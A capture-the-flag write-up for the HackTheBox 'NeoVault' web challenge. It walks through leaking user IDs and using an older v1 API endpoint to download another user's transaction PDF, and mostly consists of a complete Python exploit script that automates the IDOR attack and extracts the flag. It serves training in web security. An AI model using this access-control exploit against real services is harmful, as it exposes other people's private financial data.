

# HackTheBox — NeoVault [VeryEasy]

In this write-up, we will solve the **NeoVault** challenge from HackTheBox. The goal is to analyze the web application, identify its weaknesses, and use them to gain command execution in order to retrieve the flag. Along the way, we will break down each step of the exploitation process to clearly demonstrate how the vulnerability can be discovered and leveraged.

Now let’s navigate to the website.



Now let’s try to register a new account


Now let’s see the transaction tab.


> Notice that we found that there was a user named neo_system that have transferred a money to us.
> 

Notice let’s download the transaction history PDF


> As we see we found that the user neo_system transferred 100$ to SecretRemo
> 

Now let’s see the download request 


> Please note that it’s a post request with no parameters sent !!!
> 

Now let’s try to leak the user IDs


> Notice that we managed to find the ID of the neo_system user
> 

Now let’s go back to the download request and add the id parameter to the request with the id of the neo_system with v1 API


Now let’s show the response in the browser


> As we see we found the user with the flag
> 

Now let’s try NoSQL Injection to get the IDs of the other users.


Now let’s go and see the PDF.


> Amazing we managed to get the flag!
> 

Now let’s write the exploitation script

```python
#!/usr/bin/env python3
"""
NeoVault solver - Register / Login / Retrieve PDF / Extract flag
Usage:
    python neovault_solver.py --url https://target --email you@example.com --password P@ssw0rd
"""

import argparse
import sys
import re
from pathlib import Path

import requests
from pypdf import PdfReader

FLAG_REGEX = re.compile(r"(HTB\{.*?\}|FLAG\{.*?\}|flag\{.*?\})", re.IGNORECASE)
headers = {
    "Content-Type": "application/json"
}

def try_register(session: requests.Session, base_url: str, email: str, password: str, username: str = "SecretRemo") -> bool:
    """Try to register an account. Returns True on success, False otherwise."""
    url = base_url.rstrip("/") + "/api/v2/auth/register"
    data = {"username": username, "email": email, "password": password}
    try:
        resp = session.post(url, json=data, timeout=15,headers=headers)
    except requests.RequestException as e:
        print(f"[-] Register request failed: {e}")
        return False

    # If API returns JSON with token, consider success; otherwise inspect status code/text.
    try:
        j = resp.json()
    except Exception:
        j = {}

    if resp.ok and ("token" in resp.text or j.get("token")):
        print("[+] Account registered successfully.")
        return True

    # Some APIs return 201 or custom messages; handle common failure responses gracefully.
    if resp.status_code in (200, 201) and resp.text:
        print("[+] Register returned success-like status, proceeding.")
        return True

    # Otherwise print reason and return False
    print(f"[-] Register failed: {resp.status_code} {resp.text.strip()[:300]}")
    return False

def login(session: requests.Session, base_url: str, email: str, password: str) -> bool:
    """Perform login using session and keep the token cookie."""
    url = base_url.rstrip("/") + "/api/v2/auth/login"
    data = {"email": email, "password": password}

    try:
        resp = session.post(url, json=data, timeout=15)
    except requests.RequestException as e:
        print(f"[-] Login request failed: {e}")
        return False

    # Parse response JSON
    try:
        j = resp.json()
    except Exception:
        j = {}

    if resp.status_code == 200 and j.get("message") == "Login successful":
        print("[+] Successfully logged in.")

        # Session will automatically store Set-Cookie (token=...), 
        # so you can use `session` for further requests.
        return True

    print(f"[-] Login failed: {resp.status_code} {resp.text.strip()[:300]}")
    return False

def get_user_id(session: requests.Session, base_url: str, target_username: str = "user_with_flag"):
    """Query the inquiry endpoint to return the user's _id. Returns the id string or None."""
    url = base_url.rstrip("/") + f"/api/v2/auth/inquire?username={target_username}"
    try:
        resp = session.get(url, timeout=15)  # session already has cookies
    except requests.RequestException as e:
        print(f"[-] Inquiry request failed: {e}")
        return None

    if not resp.ok:
        print(f"[-] Inquiry failed: {resp.status_code} {resp.text.strip()[:300]}")
        return None

    try:
        j = resp.json()
    except Exception:
        print("[-] Inquiry did not return valid JSON.")
        return None

    _id = j.get("_id")
    if _id:
        print(f"[+] Got the user _id: {_id}")
        return _id

    print("[-] Could not find _id in inquiry response.")
    return None

def download_transactions_pdf(session: requests.Session, base_url: str, user_id: str, out_path: Path) -> bool:
    """Post to download-transactions and save the returned content to out_path. Returns True on success."""
    url = base_url.rstrip("/") + "/api/v1/transactions/download-transactions"
    payload = {"_id": user_id}
    try:
        resp = session.post(url, json=payload, timeout=30, stream=True,headers=headers)
    except requests.RequestException as e:
        print(f"[-] Download request failed: {e}")
        return False

    if not resp.ok:
        print(f"[-] Download failed: {resp.status_code} {resp.text.strip()[:300]}")
        return False

    try:
        out_path.parent.mkdir(parents=True, exist_ok=True)
        out_path.write_bytes(resp.content)
        print(f"[+] PDF saved to: {out_path}")
        return True
    except Exception as e:
        print(f"[-] Failed to write PDF: {e}")
        return False

def extract_flag_from_pdf(pdf_path: Path):
    """Extract text from the PDF and search for a flag. Returns list of matches (may be empty)."""
    if not pdf_path.exists():
        print("[-] PDF file does not exist.")
        return []

    try:
        reader = PdfReader(str(pdf_path))
    except Exception as e:
        print(f"[-] Failed to open PDF: {e}")
        return []

    full_text = []
    for i, p in enumerate(reader.pages):
        try:
            text = p.extract_text() or ""
        except Exception:
            text = ""
        if text:
            full_text.append(text)

    joined = "\n".join(full_text)
    matches = FLAG_REGEX.findall(joined)
    # FLAG_REGEX may capture duplicates or partial groups; normalize
    normalized = []
    for m in matches:
        if isinstance(m, tuple):
            # If using groups, pick the non-empty part
            m = next(filter(None, m), "")
        if m and m not in normalized:
            normalized.append(m)
    return normalized

def main():
    parser = argparse.ArgumentParser(description="HackTheBox NeoVault Solver (register/login/download/extract)")
    parser.add_argument("--email", required=True, help="email to register/login with")
    parser.add_argument("--password", required=True, help="password to register/login with")
    parser.add_argument("--url", required=True, help="target base URL (e.g. https://neo.example)")
    parser.add_argument("--username", default="SecretRemo", help="username to register (default: SecretRemo)")
    parser.add_argument("--target-username", default="user_with_flag", help="username with flag to inquire")
    parser.add_argument("--out", default=None, help="output path for PDF (default platform temp)")
    args = parser.parse_args()

    base_url = args.url
    email = args.email
    password = args.password
    username = args.username
    target_username = args.target_username

    # Choose a platform-agnostic default path if not provided
    if args.out:
        out_path = Path(args.out)
    else:
        # prefer temp dir; cross-platform
        from tempfile import gettempdir
        out_path = Path(gettempdir()) / "user.pdf"

    session = requests.Session()
    session.headers.update({"User-Agent": "neovault-solver/1.0"})

    # Try register first; if registration fails because account exists, we'll still attempt login.
    registered = try_register(session, base_url, email, password, username=username)
    if not registered:
        print("[*] Continuing by attempting login (account may already exist).")

    if not login(session, base_url, email, password):
        print("[-] Unable to login; aborting.")
        sys.exit(1)

    _id = get_user_id(session, base_url, target_username)
    if not _id:
        print("[-] Failed to obtain target user id; aborting.")
        sys.exit(1)

    if not download_transactions_pdf(session, base_url, _id, out_path):
        print("[-] Failed to download PDF; aborting.")
        sys.exit(1)

    flags = extract_flag_from_pdf(out_path)
    if flags:
        print("[+] Flags found in PDF:")
        for f in flags:
            print(f"    {f}")
    else:
        print("[-] No flags found with common patterns. Full extracted text preview:")
        # show first 1000 characters to help debugging
        try:
            reader = PdfReader(str(out_path))
            page_text = []
            for p in reader.pages:
                page_text.append(p.extract_text() or "")
            joined = "\n".join(page_text)
            print(joined[:1000] + ("..." if len(joined) > 1000 else ""))
        except Exception as e:
            print(f"[-] Could not extract text for preview: {e}")

if __name__ == "__main__":
    main()

```


Now let’s run the exploit to get the flag


> As we see we got the flag!
> 

🎯 Conclusion

By following the exploitation path and carefully analyzing the challenge, we were able to identify the vulnerability and successfully obtain the flag. This highlights the importance of secure coding practices and the risks of improper input handling in web applications.

*Written by **SecretRemo*** ✍️

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT